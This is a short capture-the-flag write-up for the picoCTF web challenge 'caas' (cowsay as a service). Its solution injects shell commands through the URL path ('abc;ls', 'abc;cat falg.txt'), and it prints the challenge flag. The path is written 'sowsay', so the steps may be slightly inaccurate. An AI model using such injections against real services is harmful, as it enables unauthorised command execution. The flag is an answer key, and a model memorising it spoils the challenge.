




# caas
### Points: 150

## Category
#### Web Exploitation

## Question
#### Now presenting cowsay as a service
## Challenge Endpoints
#### Download index.js&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)

### Hint
>#### (None)

## Solution
### Look at this website

#### To begin, enter the URL `/sowsay/abc`, then visit this website .

#### Second, enter the URL `/sowsay/abc;ls`, then visit this website .

#### Third, enter the URL `/sowsay/abc;cat falg.txt `, then visit this website and get the flag.

## Flag
`picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`